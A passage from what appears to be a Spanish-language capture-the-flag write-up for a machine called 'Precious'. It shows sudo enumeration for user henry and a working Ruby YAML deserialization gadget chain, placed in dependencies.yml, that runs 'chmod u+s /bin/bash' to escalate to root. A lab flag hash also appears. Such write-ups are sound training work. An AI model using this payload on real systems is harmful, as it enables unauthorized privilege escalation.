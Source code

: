 Puedo ejecutar como ```root``` un script en ```ruby``` que se encuentra en el directorio ```/opt```

```null
henry@precious:~$ cat user.txt 
b0c7f804ca1769b95e5f16c8b6d1e361
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Recibo un error

```null
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```

Copio el ```yaml``` de ejemplo al directorio personal de ```ruby```

```null
henry@precious:~$ cp /opt/sample/dependencies.yml .
```

De esta forma se ejecuta sin problemas

```null
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Installed version differs from the one specified in file: yaml
Installed version is equals to the one specified in file: pdfkit
```

En este [artículo](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) explican como es posible llegar a ajecutar comandos a través de la deserialización del archivo YAML, importado con ```yaml.load```

```null
henry@precious:~$ cat dependencies.yml 
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: chmod u+s /bin/bash
          method_id: :resolve 
```
